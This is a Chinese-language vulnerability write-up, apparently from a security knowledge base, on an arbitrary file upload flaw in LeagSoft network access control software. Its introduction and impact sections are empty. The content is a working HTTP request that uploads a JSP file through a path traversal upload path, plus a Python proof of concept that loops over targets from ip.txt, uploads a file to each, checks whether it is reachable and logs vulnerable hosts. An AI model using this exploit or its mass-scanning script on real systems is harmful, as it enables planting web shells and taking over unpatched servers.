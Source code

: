 联软准入 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    Host: www.0-sec.org:8099
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 308
    Content-Type: multipart/form-data; boundary=ea8ef2c3b016cd152a651d2799ef2c5c

    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="input_localfile"; filename="111.jsp"
    Content-Type: text/plain

    aaaaa
    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="uploadpath";

    ../webapps/notifymsg/devreport/
    --ea8ef2c3b016cd152a651d2799ef2c5c--

![1.png](resource/联软准入任意文件上传漏洞/media/rId24.png)

上传路径：

`https://www.0-sec.org/notifymsg/devreport/111.jsp`

![2.png](resource/联软准入任意文件上传漏洞/media/rId25.png)

### poc

> poc.py

    import requests


    def main(line):
        proxies = {'http': 'http://localhost:8080'}
        # url = 'https://www.0-sec.org/uai/download/uploadfileToPath.htm'
        url = line + '/uai/download/uploadfileToPath.htm'
        url_2 = line.strip() + '/notifymsg/devreport/{}'
        filename = '111.txt'
        files = {
            'input_localfile': (filename, open(filename), 'text/plain'),
        }
        content = {
            'uploadpath': '../webapps/notifymsg/devreport/'
        }
        res = requests.post(url, files=files, proxies=proxies, data=content, verify=False)
        # print(res.text)
        res_2 = requests.get(url_2.format(filename), verify=False)
        if 'xxx' in res_2.text:
            print('ok....')
            with open('ok.txt', mode='a') as f:
                f.write(url_2.format(filename) + '\n')
                print('写入成功...')


    if __name__ == '__main__':
        with open('ip.txt', mode='r') as f:
            for line in f.readlines():
                if line == '\n':
                    pass
                main(line)

参考链接
--------

> https://blog.csdn.net/m0\_48520508/article/details/108790281
